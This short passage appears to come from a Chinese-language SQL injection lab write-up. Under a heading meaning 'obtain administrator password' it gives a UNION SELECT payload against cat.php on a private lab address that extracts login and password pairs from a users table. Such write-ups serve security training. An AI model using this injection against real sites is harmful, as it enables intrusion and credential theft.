 ![](images/表列对应关系.PNG)

* 获取管理员密码
```
192.168.56.4/cat.php?id=1 union select 1,concat(login,':',password),3,4 from users 
```
